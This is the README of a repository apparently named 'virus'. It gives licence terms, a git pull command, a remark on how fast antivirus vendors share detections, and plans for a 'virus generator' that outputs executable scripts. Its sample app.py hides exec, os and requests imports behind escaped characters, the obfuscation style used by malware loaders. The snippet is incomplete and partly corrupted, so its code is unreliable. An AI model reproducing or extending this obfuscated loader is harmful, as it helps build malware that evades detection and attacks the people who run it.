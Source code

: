 
# 该程序部分代码由AI生成
使用到的AI:
 - [ChatGPT](https://chatgpt.com)
 - [DeepSeek](https://chat.deepseek.com)
 - [GitHub Copilot](https://github.com/copilot)

# 说明
该程序使用协议为:
 - [NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License)
 - [F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)

基于[F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)和[NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License):
 - 禁止将该程序用于非法行为！
 - 禁止将该程序用于商业行为！
 - 允许修改程序:
   - 将以下代码输入到终端来把项目pull到本地
    ```git pull https://github.com/sqxy090123/virus.git```


# 附加说明
由于各大杀毒软件互通，当病毒第一次被检测到后24h内，其他杀软会陆陆续续检测到

# 分发条件
对于未得到授权的二次分发:
 - 分发后的协议必须包括[F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)和[NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License)
 - 需要标明来源

对于得到授权的二次分发:
 - 需要标明`许可id`
 - 需要标明来源

# [futures.md(未来更新计划)](blob/master/futures.md)

## 关于未来的病毒生成器
计划使用python制作出.exe程序和.js/.py/.vbs/.cmd/.com等可以执行的代码
例如app.py
```
a = exec
a("b\75__imp\u006frt__\50'\\x6fs')")
a("c=__imp\u006frt__\50'r\\u0065qu\x65sts')")
a("""\
try\72
\40   _\75b\56listdir\50"/")
\u0065xc\x65pt P\rmissionError
""")
```